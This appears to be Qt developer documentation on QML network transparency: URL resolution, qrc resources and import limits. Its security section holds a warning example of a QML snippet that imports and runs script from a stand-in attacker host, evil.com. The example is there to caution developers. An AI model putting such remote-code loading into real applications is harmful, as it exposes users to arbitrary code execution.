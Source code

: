 

QML supports network transparency by using URLs (rather than file names)
for all references from a QML document to other content. This means that
anywhere a URL source is expected, QML can handle remote resources as
well as local ones, for example in the following image source:

.. code:: qml

    Image {
        source: "http://www.example.com/images/logo.png"
    }

Since a *relative* URL is the same as a relative file, development of
QML on regular file systems remains simple:

.. code:: qml

    Image {
        source: "images/logo.png"
    }

Network transparency is supported throughout QML, for example:

-  Fonts - the ``source`` property of FontLoader is a URL
-  WebViews - the ``url`` property of WebView (obviously!)

Even QML types themselves can be on the network - if the Prototyping
with qmlscene is used to load ``http://example.com/mystuff/Hello.qml``
and that content refers to a type "World", the engine will load
``http://example.com/mystuff/qmldir`` and resolve the type just as it
would for a local file. For example if the qmldir file contains the line
"World World.qml", it will load ``http://example.com/mystuff/World.qml``
Any other resources that ``Hello.qml`` referred to, usually by a
relative URL, would similarly be loaded from the network.

.. rubric:: Relative vs. Absolute URLs
   :name: relative-vs-absolute-urls

Whenever an object has a property of type URL (QUrl), assigning a string
to that property will actually assign an absolute URL - by resolving the
string against the URL of the document where the string is used.

For example, consider this content in
``http://example.com/mystuff/test.qml``:

.. code:: qml

    Image {
        source: "images/logo.png"
    }

The Image source property will be assigned
``http://example.com/mystuff/images/logo.png``, but while the QML is
being developed, in say ``C:\User\Fred\Documents\MyStuff\test.qml``, it
will be assigned ``C:\User\Fred\Documents\MyStuff\images\logo.png``.

If the string assigned to a URL is already an absolute URL, then
"resolving" does not change it and the URL is assigned directly.

.. rubric:: QRC Resources
   :name: qrc-resources

One of the URL schemes built into Qt is the "qrc" scheme. This allows
content to be compiled into the executable using The Qt Resource System.
Using this, an executable can reference QML content that is compiled
into the executable:

.. code:: cpp

        QQuickView *view = new QQuickView;
        view->setUrl(QUrl("qrc:/dial.qml"));

The content itself can then use relative URLs, and so be transparently
unaware that the content is compiled into the executable.

.. rubric:: Limitations
   :name: limitations

The ``import`` statement is only network transparent if it has an "as"
clause.

More specifically:

-  ``import "dir"`` only works on local file systems
-  ``import libraryUri`` only works on local file systems
-  ``import "dir" as D`` works network transparently
-  ``import libraryUrl as U`` works network transparently

.. rubric:: Implications for Application Security
   :name: implications-for-application-security

The QML security model is that QML content is a chain of trusted
content: the user installs QML content that they trust in the same way
as they install native Qt applications, or programs written with
runtimes such as Python and Perl. That trust is establish by any of a
number of mechanisms, including the availability of package signing on
some platforms.

In order to preserve the trust of users, QML application developers
should not load and execute arbitrary JavaScript or QML resources. For
example, consider the QML code below:

.. code:: qml

    import QtQuick 2.0
    import "http://evil.com/evil.js" as Evil
    Component {
        onLoaded: Evil.doEvil()
    }

This is equivalent to downloading and executing
"http://evil.com/evil.exe". **The QML engine will not prevent particular
resources from being loaded**. Unlike JavaScript code that is run within
a web browser, a QML application can load remote or local filesystem
resources in the same way as any other native applications, so
application developers must be careful in loading and executing any
content.

As with any application accessing other content beyond its control, a
QML application should perform appropriate checks on any untrusted data
it loads. **Do not, for example, use ``import``, Loader or
`XMLHttpRequest </sdk/apps/qml/QtQml/qtqml-javascript-qmlglobalobject#xmlhttprequest>`__
to load any untrusted code or content.**

